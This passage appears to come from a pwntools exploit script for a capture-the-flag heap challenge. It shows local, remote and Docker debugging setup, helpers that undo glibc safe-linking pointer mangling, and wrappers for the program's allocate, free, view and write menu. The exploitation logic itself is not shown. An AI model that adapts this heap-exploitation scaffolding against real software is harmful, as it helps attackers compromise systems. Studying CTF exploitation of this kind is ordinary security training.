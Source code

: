 ```python
        p = process([exe.path] + argv)
        gdb.attach(p, gdbscript=gdbscript)
        pause()
        return p
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(
            int(pid),
            gdbscript=gdbscript
            + f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe",
            exe=exe.path,
        )
        pause()
        return p
    else:
        return process([exe.path] + argv)


# ==================== EXPLOIT ====================
def init():
    global p
    p = start()


# p = process(["qemu-ppc", "-g", "1234", "./sp33d1"])
# p = process(["qemu-mipsel", "-L", "rootfs", "-g", "1234", "./mips_patched"])
def defuscate(x, l=64):
    p = 0
    for i in range(l * 4, 0, -4):  # 16 nibble
        v1 = (x & (0xF << i)) >> i
        v2 = (p & (0xF << i + 12)) >> i + 12
        p |= (v1 ^ v2) << i
    return p


def obfuscate(p, adr):
    return p ^ (adr >> 12)


def create(index, size):
    sla(b"> ", b"1")
    sla(b"Index:", str(index).encode())
    sla(b"Size:", str(size).encode())


def free(index):
    sla(b"> ", b"2")
    sla(b"Index:", str(index).encode())


def view(index):
    sla(b"> ", b"3")
    sla(b"Index:", str(index).encode())


def write_into(index, content):
    sla(b"> ", b"4")
    sla(b"Index:", str(index).encode())
    sa(b"Data: ", content)
```